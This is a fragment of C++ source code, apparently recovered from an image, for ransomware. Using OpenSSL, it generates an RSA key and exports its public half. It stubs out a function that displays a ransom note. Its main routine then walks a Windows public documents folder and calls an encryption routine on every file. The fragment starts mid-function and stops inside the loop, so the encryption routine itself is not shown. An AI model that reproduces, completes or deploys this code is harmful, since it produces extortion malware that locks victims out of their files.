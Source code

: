     BIGNUM* e = BN_new();

    BN_set_word(e, RSA_F4);



    RSA_generate_key_ex(rsa, 2048, e, nullptr);

    BIO* bio = BIO_new(BIO_s_mem());

    PEM_write_bio_RSAPublicKey(bio, rsa);

    

    char* publicKey;

    long len = BIO_get_mem_data(bio, &publicKey);

    std::string publicKeyString(publicKey, len);



    BIO_free_all(bio);

    RSA_free(rsa);

    BN_free(e);



    return publicKeyString;

}



void displayRansomNote(const std::string& publicKey)

{

    // Insert code to display ransom note with the generated public key

}



int main()

{

    std::string targetDirectory = "C:\\Users\\Public\\Documents\\";

    std::string publicKey = generatePublicKey();



    std::filesystem::recursive_directory_iterator it(targetDirectory), end;

    while (it != end)

    {

        if (std::filesystem::is_regular_file(*it))

        {

            encryptFile(it->path().string(), publicKey);

        }

